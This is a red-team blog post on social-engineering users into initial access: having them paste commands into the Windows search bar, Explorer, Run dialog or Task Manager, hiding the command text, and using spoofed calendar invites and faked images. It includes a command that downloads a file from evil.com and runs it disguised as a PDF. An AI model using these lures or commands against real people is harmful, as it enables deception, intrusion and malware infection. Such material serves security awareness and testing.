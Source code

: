 ```yaml
---
title: Social Engineering Your Way Into The Network
date: "2022-07-03"
featuredImage: ''
---
```


This post discusses how an attacker can social engineer users in ways that go beyond the traditional methodology<!-- end -->.

# Introduction

Most organizations have some sort of security awareness training and I've seen some which are quite robust and effective. Although it does not make initial access impossible, it does make it more difficult and time consuming. Defenders and security vendors know what to expect when it comes to initial access. Matt Hand's <a href="https://posts.specterops.io/hang-fire-challenging-our-mental-model-of-initial-access-513c71878767" target="_blank">blog post</a> summarized initial access with the following statement:

> An attacker sends their thing. A user clicks the thing. The thing goes boom. The attacker has a callback.

To stop attackers you teach your users to avoid "clicking the thing" and build prevention and detection mechanisms with that statement in mind.

## Browser & OS Security

Additionally, default security controls for operating systems and browsers have made it increasingly difficult for users to download and execute files. 

For example, when a user lands on a phishing page and attempts to download a binary, Chrome will display a warning to the user. If the user ignores the warning and attempts to execute the binary then Windows SmartScreen will produce another warning to the user. All of these warnings may give users second thoughts before executing our malicious file during an engagement.

## Purpose

The purpose of this blog post is to try to come up with unexpected ways to social engineer users in order to increase our initial access success rate.

# Initial Access Via Copy Pasting

```Ctrl + C``` and ```Ctrl + V``` is part of everyone's day-to-day actions when using a computer. With that being said, security training programs don't warn users of the dangers when pasting commands in certain places on a Windows machine. Let's take advantage of this gap to help us potentially gain initial access on the machine.

## Windows Search Bar

**Tested on Windows 10. Doesn't work on Windows 11**.

If you didn't know, the Windows search bar allows you to execute commands. In the mind of most users it is considered a benign location which makes it a perfect location to have them paste a malicious command. Most users would not assume that by searching for something that they can unknowingly give remote access to their machine. Below is an example of what an attacker's email could say.

![Search-Email](./search-email.png)

When the user pastes the command, the Windows search bar will run it as a command instead.

![Search-Results](./search-results.png)

### Length Limit

The content the user pastes should be less than 255 characters.

## Windows Explorer

**Tested on Windows 10/11**.

Explorer's address bar is also a location that can be used to execute commands. An example email asking the user to paste a command in the Explorer address bar is shown below.

![Explorer](./explorer-email.png)

The user would need to paste the command as shown below.

![Explorer-Run](./explorer-run.png)

## Windows Run

**Tested on Windows 10/11**.

The Windows Run Dialog Box is also another option that users can paste our malicious commands in. It's simple to launch due to the built in shortcut ```Windows + R``` and has a relatively benign and generic looking input field. It is also common knowledge that the Windows Run Dialog Box is used to launch applications. On the other hand it is not common knowledge for the average user that pasting commands there can be dangerous.

Below is a sample email an attacker could send.

![Run-Email](./run-email.png)

The breakdown of the example command is shown below.

```
# Generic text to comfort the user
cmd /c echo Open company.pdf with the password: c0mp@ny123. &&

# Downloading the malicious file
cmd /c curl evil.com/company.pdf > %temp%\company.pdf && 

# Executing the file
%temp%\company.pdf
```

The command would be pasted into the Windows Run Dialog Box.

![Run-Dialog-Box](./run-box.png)

### Length Limit

The content the user pastes should be less than 260 characters.

## Task Manager

**Tested on Windows 10/11**.

The task manager also has a hidden field to run commands. An example email from an attacker would look like this.

![Task-Manager](./task-manager.png)

### Length Limit

The content the user pastes should be less than 260 characters.

## LOLBIN Compatible

Note that you're not limited to Cmd.exe or Powershell.exe when running commands, you can use LOLBINs instead.

![LOLBIN](./lolbin-1.png)

## Hiding The Malicious Command

To have a better success rate, your command should probably be inline with user expectations. Another option is to simply hide the malicious command by making the user<a href="https://www.bleepingcomputer.com/news/security/dont-copy-paste-commands-from-webpages-you-can-get-hacked/" target="_blank">unknowingly copy a benign command</a>.Furthermore, you can hide parts of the command by making it blend with the background color.

![Hidden-Text](./hidden-text.png)

# Calendar Invites

Calendar invites are another source of phishing that organizations don't train their users on sufficiently. I've personally had success with calendar invites and I found the two best approaches are:

1. Sending a calendar invite to the target with non-existent users from the company as particpants (e.g. someone.realistic@company.com).
2. Use faked .ics files as shown <a href="https://mrd0x.com/spoofing-calendar-invites-using-ics-files/" target="_blank">here (Gmail)</a> or <a href="https://www.exandroid.dev/2021/04/24/phishing-with-fake-meeting-invite/" target="_blank">here (Outlook)</a>.

![Invite](./invite.png)

# Establishing An Alternate Communication Channel

Users are commonly trained to never type away their credentials without double checking they're on the right website. But what if someone provides the user with credentials to a new email address or any other communication channel? This goes against the logic that users have been trained for.

![New-Account](./new-account.png)

In this example, the account may be pre-configured with malicious files on OneDrive or phishing emails in their inbox.

# Use Fake Images

Fake images can be used as part of your pretext to make your claim look more believable. Here's an example of what an attacker could do.

![Elon-Musk](./elon-musk.png)

You can use faked images along with personal or internal information you've gained through the recon phase to make your pretext even more believable. For example, if you know the organiation uses Slack you can fake a Slack image.

![Elon-Musk-2](./elon-musk-2.png)

# Conclusion

Yes we would all like it if the user were to just download and execute our binary but sometimes it may take some added creativity to eventually reach our goal. In this post I've demonstrated several ways that you can throw a user off when it comes to initial access. I'm sure there's more out methods out there but I think this post helps you to think outside the box.